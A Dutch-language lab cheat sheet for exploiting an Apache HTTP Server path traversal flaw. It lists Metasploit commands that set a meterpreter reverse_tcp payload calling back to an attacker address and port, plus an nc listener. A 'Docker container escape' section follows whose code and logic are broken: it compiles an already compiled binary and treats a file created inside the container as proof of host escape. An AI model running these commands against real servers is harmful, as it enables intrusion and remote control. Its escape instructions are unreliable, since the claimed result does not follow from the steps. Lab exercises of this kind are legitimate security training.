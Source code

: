 # Cheat sheet aanval van Apache HTTP server path traversal

Voor het uitvoeren van de aanval van Apache HTTP server path traversal zijn de volgende stappen nodig:

Stap 1: Contolleer of de VM's met elkaar kunnen communiceren

```bash
ping <ip-van-de-server>
PING 192.168.0.254 (192.168.0.254) 56(84) bytes of data.
64 bytes from 192.168.0.254: icmp_seq=1 ttl=64 time=3.43 ms
64 bytes from 192.168.0.254: icmp_seq=2 ttl=64 time=0.419 ms
64 bytes from 192.168.0.254: icmp_seq=3 ttl=64 time=0.423 ms
```

Metasploitable gebruiken:

```bash
msfconsole
```

```bash
use exploit/multi/http/apache_normalize_path_rce
show options
set RHOSTS 192.168.0.159
set RPORT 8080
set TARGETURI /
set SSL false
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.0.251
set LPORT 4444

```

Start de netcat listener op de kali machine:

```bash
nc -lvnp 4444
```

```bash
run
```

tap 1: Verbind met de Docker-container

Voordat je de exploit uitvoert, moet je een manier hebben om de kwetsbare container aan te vallen. Als je Kali en de Ubuntu-machine op hetzelfde netwerk hebt, kun je verbinding maken met de Docker-container via de docker exec of docker attach opdracht. Maar als je de container vanuit Kali wilt aanvallen, kun je ook de netwerkpoort van de container gebruiken, afhankelijk van hoe de container is ingesteld.
Stap 2: PoC-exploit Voorbereiden (Docker container escape)

We gaan een simple local exploit uitvoeren door een programma op de kwetsbare container te compilen en het aanroepen vanaf Kali.
Maak een simpele exploit in Kali:

    Maak een exploitbestand aan, bijvoorbeeld docker_poc_exploit.c:

#include <stdio.h>
#include <stdlib.h>
int main() {
    // De exploit voert een system-aanroep uit om een bestand aan te maken op de host
    system("touch /tmp/exploit_from_kali");
    return 0;
}

    Compileer de exploit op je Kali-systeem:

gcc docker_poc_exploit.c -o docker_poc_exploit

    Verbind met de kwetsbare Docker-container en voer de exploit uit:

        Hier gaan we ervan uit dat je container met verhoogde rechten draait op je Ubuntu-systeem (zoals geïnstalleerd in het script).

        Verbind via docker exec of docker attach:

    docker exec -it vulnerable-container bash

    Binnen de container, ga je de exploit uitvoeren door de exploit te kopiëren en te compileren binnen de container:

# Kopieer de exploit naar de container
docker cp docker_poc_exploit vulnerable-container:/tmp/docker_poc_exploit

# Log in in de container
docker exec -it vulnerable-container bash

# Compileer de exploit binnen de container
gcc /tmp/docker_poc_exploit -o /tmp/exploit

# Voer de exploit uit
/tmp/exploit

Stap 3: Controleer of de exploit succesvol is

Als de exploit succesvol is, zou je een bestand moeten zien verschijnen op je host systeem (bijv. /tmp/exploit_from_kali). Dit toont aan dat de container-escape gelukt is.

Controleer het bestand op de host:

ls /tmp/exploit_from_kali

Als je het bestand ziet, is de exploit succesvol uitgevoerd en is de container geëscaleerd naar de host.
Stap 4: Verwijder de kwetsbare container

Na het uitvoeren van de test kun je de kwetsbare container verwijderen om ervoor te zorgen dat deze geen schade aanricht aan je systeem:

docker rm -f vulnerable-container

Samenvatting van de procedure

    Maak de exploit op Kali en voer deze uit binnen de kwetsbare Docker-container.

    De exploit probeert een bestand te creëren op de host-systeem, wat aantoont dat de kwetsbare container succesvol is ontsnapt naar het host-systeem.

    Zorg ervoor dat je alle containers verwijdert nadat je de test hebt uitgevoerd om geen onbedoelde gevolgen te ondervinden.

Let op: Deze aanval wordt alleen uitgevoerd in een gecontroleerde testomgeving en moet niet worden gebruikt in productieomgevingen, aangezien dit kan leiden tot ernstige beveiligingsrisico’s.